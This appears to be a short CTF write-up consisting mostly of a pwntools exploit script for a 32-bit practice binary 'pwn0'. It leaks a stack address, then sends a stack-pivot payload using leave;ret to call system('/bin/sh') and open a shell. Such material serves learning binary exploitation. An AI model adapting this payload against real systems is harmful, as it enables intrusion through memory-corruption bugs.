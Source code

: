 Ubantu18 环境，这里我用 Ubantu16 打的

exp:

```bash
import os
import sys
import time
from pwn import *
from ctypes import *

context.log_level='debug'
context.arch='i386'

#p=remote("node4.buuoj.cn",27740)
p=process('./pwn0')
elf = ELF('./pwn0')
libc = ELF('/lib/i386-linux-gnu/libc.so.6')

s       = lambda data               :p.send(str(data))
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(data)
sls     = lambda data               :p.sendline(str(data))
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num                :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
l64     = lambda      :u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda      :u32(p.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
context.terminal = ['gnome-terminal','-x','sh','-c']
def dbg():
    gdb.attach(p,'b *$rebase(0x13aa)')
    pause()

system=0x08048400
leak('system',system)
leave_ret=0x080485FD


pl1='a'*0x27+'b'
p.send(pl1) #not sendline
p.recvuntil("b")
ebp=u32(p.recv(4))
leak('ebp',ebp)

s=ebp-0x38
binsh=ebp-0x28

pl2='aaaa'+p32(system)+p32(1)+p32(binsh)+"/bin/sh\00"
pl2=pl2.ljust(0x28,'p')

pl2+=p32(s)+p32(leave_ret)

sl(pl2)

p.interactive()
```
